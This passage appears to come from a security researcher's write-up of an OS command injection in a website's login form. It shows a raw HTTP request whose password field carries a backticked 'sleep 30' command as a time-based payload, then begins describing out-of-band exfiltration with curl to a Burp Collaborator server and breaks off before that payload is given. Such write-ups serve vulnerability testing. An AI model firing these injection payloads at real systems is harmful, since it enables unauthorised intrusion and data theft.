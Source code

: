 >HTTP Request

```http
POST /connexion/ HTTP/2
Host: www.target.com
Cookie: target=test
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=sandh0t%40mail.com&password=%60sleep%2030%60

```

>HTTP Response

![](/assets/img/4/3.JPG)


# Out-of-Band (OOB) Payload:


OOB payloads are used also to exfiltrate data from a target system to a remote server, which can be used to confirm the vulnerability and gain access to sensitive information.

Up to this point, I had been able to successfully exploit the vulnerability, but I found that the web application was not returning any data. To further test the vulnerability, I decided to use Out-of-Band (OOB) payloads and send HTTP requests to my Burp Collaborator using the curl command, using this payload 
